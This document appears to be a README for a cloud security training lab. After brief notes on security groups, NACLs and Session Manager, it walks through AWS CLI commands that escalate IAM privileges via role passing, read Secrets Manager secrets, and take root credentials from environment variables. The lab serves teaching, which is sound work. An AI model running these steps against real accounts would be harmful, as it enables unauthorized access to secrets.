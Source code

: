 # Basic cloud security
Today we will follow the tracks of a reckless engineer to read his darkest secrets. We will start on the workstation which you can find at https://lab.devopsplayground.org/

## Getting through the doors
Once you open your terminal, you can see the workdir directory with the `target-instance.txt` file where you can see a user and ip address of the server you need to log into. We will let you "guess" the password.
Assuming that you logged in succesfully we are going to stop and look at what we could do better on the account to prevent access to the server.
### Security group
We are going to start with Security groups which are attached to the instance. Allowing all traffic from any source is a dangerous practice and you should limit entries to the trusted sources and the ports actually used by the application/service.

<p align="center">
  <img src="./images/sg.png" />
</p>

Security groups are stateful therfore allwing incoming traffic allows the response.

### NACL
Network Access Control Lists allow you to manage traffic withing your VPC (applied to subnets), they are evaluated before Security groups and are stateless (You need to allow response traffic separately).

### Systems Manager
Lastly - it is worth to ask ourselves the question if allowing to access the instance via ssh is absolutely necessary. AWS allows you to use session manager for a console access to the server and use IAM to control the accesss to the instances.

## IAM privilige escalation
### Discover availible credentials 
Once we logged in onto the ec2 instance we can discover if any IAM, API credenials are availible. Lets execute:
```
aws sts get-caller-identity
```
Your output should look like below:
<p align="center">
  <img src="./images/get-caller-identity.png" />
</p>
We can see that the instance assumed role dpg-funny-panda-workstation. Lets see what permissions are attached to this role. We can do this by executing:

```bash
aws iam list-attached-role-policies --role-name dpg-funny-panda-workstation
```
Your output should look like below: 

<p align="center">
  <img src="./images/list-policies.png" />
</p>

We can see one IAM policy attached to the role, lets investigate what permissions are defined in the policy.
Firs we need to look into the the policy:
```
aws iam get-policy --policy-arn arn:aws:iam::204521158369:policy/dpg-funny-panda-workstation
```

Your output should look like below:

<p align="center">
  <img src="./images/get-policy.png" />
</p>

Note the default policy version and execute:
```
aws iam get-policy-version --policy-arn arn:aws:iam::204521158369:policy/dpg-funny-panda-workstation --version-id v3
```
You should see the full IAM policy and your output should start with below:

<p align="center">
  <img src="./images/instance-policy.png" />
</p>

The above policy allows us ec2 actions as as to pass secret-read-role. Lets investigate what policies this role has and what permissions are defined for this role. Lets execute three commands below
```
aws iam list-attached-role-policies --role-name secret-read-role
aws iam get-policy --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret
aws iam get-policy-version --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret --version-id v1
```
Your last output should look like
<p align="center">
  <img src="./images/secret-policy.png" />
</p>


We can see that the policy allows us to read one of the secrets on the account. To do so we can create a new EC2 instance and attach secret-read-role to the instance profile and once we connect to the new server read the secret. 

First, lets create a new key-pair:
```
aws ec2 create-key-pair \       
   --key-name funny-panda \
   --query 'KeyMaterial' --output text > ~/.ssh/funny-panda
```

Now lets find out more about our current instance to deploy our new server in the same network. We can find our instance ID by executing:
```
aws sts get-caller-identity
```
Once we grab the id we can execute:
```bash
aws ec2 describe-instances --instance-ids i-02baacbaf617999e1
```
Your output should be a JSON file with the instance configuration like below.

<p align="center">
  <img src="./images/ec2.png" />
</p>

Note the the AMI ID, Security group id, and subnet ids, next lets create a new EC2 instance with the command below:
```bash
aws ec2 run-instances \
    --image-id ami-00caa7df15d2e771f \
    --count 1 \
    --instance-type t2.micro \
    --key-name funny-panda \
    --security-group-ids sg-09587dd14a1f9db3d \
    --subnet-id subnet-0dcf0c3a01abc9808 \
    --block-device-mappings "[{\"DeviceName\":\"/dev/sdf\",\"Ebs\":{\"VolumeSize\":30,\"DeleteOnTermination\":false}}]" \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=funny-panda}]' 'ResourceType=volume,Tags=[{Key=Name,Value=funny-panda-disk}]'
```
Once your new instance is created - note its IP address. Next lets create an instance profile.
```bash
aws iam create-instance-profile \
 --instance-profile-name funnypanda
```
and attach the role to the profile
```bash
aws iam add-role-to-instance-profile \
--instance-profile-name funnypanda \
--role-name secret-read-role
```
And finally associate the profile with our instance:
```bash
aws ec2 associate-iam-instance-profile --iam-instance-profile Name=funnypanda --instance-id i-0516aa13e97073823
```
Now our new server is ready to be used. Lets modify the permissions of our key before we use it to ssh to the server
```
chmod 400 ~/.ssh/funny-panda
```
And ssh to the target server:
```
ssh ec2-user@@10.0.10.156 -i ~/.ssh/funny-panda
```
Once logged in we can try our last command:
```
aws secretsmanager get-secret-value --secret-id playground-secret
```

## OS privilage escalation + API keys
So we managed to read one of the secrets, but there is still one more around the corner. Lets get back to our target instance and see if our user is added to the sudoers list.
```bash
sudo su
```
Now once we are a root user lets try:
```
aws sts get-caller-identity
```
You should notice that this time we assumed a different AWS entity, AWS user, like below

<p align="center">
  <img src="./images/root.png" />
</p>

It looks like there are locally stored credentials for the root user which take precedence over attached role. We can confirm that by trying

```bash
env | grep AWS
```
Now lets see what permissions we have attached to this user.

```bash
aws iam list-attached-user-policies --user-name dpg-sweet-panda
```
Looks like there are no policies attached:
<p align="center">
  <img src="./images/user-policies.png" />
</p>
Lets see if user has any inline policy then.

```bash
aws iam list-user-policies --user-name dpg-sweet-panda
```
<p align="center">
  <img src="./images/user-inline.png" />
</p>
There is an inline policy attached to this user - let's investigate further

```bash
aws iam get-user-policy --user-name dpg-sweet-panda --policy-name policy-dpg-sweet-panda
```
You should notice a familiar statement in the policy
<p align="center">
  <img src="./images/user-secret.png" />
</p>
Lastly lets reveal the last part be executing:

```bash
aws secretsmanager get-secret-value --secret-id User_secret
```